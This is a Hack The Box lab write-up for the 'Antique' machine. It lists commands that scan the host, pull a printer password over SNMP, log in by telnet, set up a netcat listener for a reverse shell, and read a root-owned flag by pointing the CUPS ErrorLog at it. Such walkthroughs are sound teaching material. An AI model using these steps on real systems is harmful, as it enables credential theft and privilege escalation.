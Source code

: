 ```yaml
---
layout: single
title: Antique - Hack The Box
excerpt: "Antique is an easy Linux machine featuring a network printer disclosing credentials through SNMP string which allows logging into telnet service. Foothold can be obtained by exploiting a feature in printer. CUPS administration service running locally. This service can be exploited further to gain root access on the server."
date: 2025-05-07
classes: wide
header:
  teaser: /img2/antique.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - SNMP Enumeration
  - Network Printer Abuse
  - CUPS Administration Exploitation (ErrorLog)
---
```



## Reconnaissance

- Nmap scan

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -Pn 10.10.11.107
```

![](/img2/Pasted%20image%2020250507100309.png)

- Nmap version and vulnerability scan

```bash
nmap -sCV -p23 -vvv 10.10.11.107
```

![](/img2/Pasted%20image%2020250507100730.png)

- Search exploits in HP JetDirect Printer

```bash
searchsploit Jetdirect
```

![](/img2/Pasted%20image%2020250507103306.png)

```bash
searchsploit -x hardware/remote/22319.txt
```

![](/img2/Pasted%20image%2020250507103407.png)


## Exploitation

- Check critical OID in HP JetDirect

```bash
snmpwalk -v2c -c public 10.10.11.107 1.3.6.1.4.1.11
```

![](/img2/Pasted%20image%2020250507110500.png)

- Decode ASCII

```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xxd -r -p
```

![](/img2/Pasted%20image%2020250507110615.png)

- Connect to printer and send reverse shell

```bash
telnet 10.10.11.107
```

![](/img2/Pasted%20image%2020250507111243.png)

```bash
nc -nlvp 9000
```

## Post-exploitation

- Check user groups

```bash
id
```

![](/img2/Pasted%20image%2020250507120816.png)

- Check if cups service is running as root

```bash
ps -aux | grep cups
```

![](/img2/Pasted%20image%2020250507122329.png)

- The group lpadmin is default group for cups

```bash
cat /etc/cups/cupsd.conf
```

![](/img2/Pasted%20image%2020250507121025.png)

- Change ErrorLog PATH to see the flag

```bash
cupsctl ErrorLog="/root/root.txt"
```

> We can check cupsd.conf file 

```bash
cat /etc/cups/cupsd.conf | grep ErrorLog
```

![](/img2/Pasted%20image%2020250507121936.png)

- Request default Log url to see the flag

```bash
curl localhost:631/admin/log/error_log
```

![](/img2/Pasted%20image%2020250507122138.png)

![](/img2/Pasted%20image%2020250507115535.png)
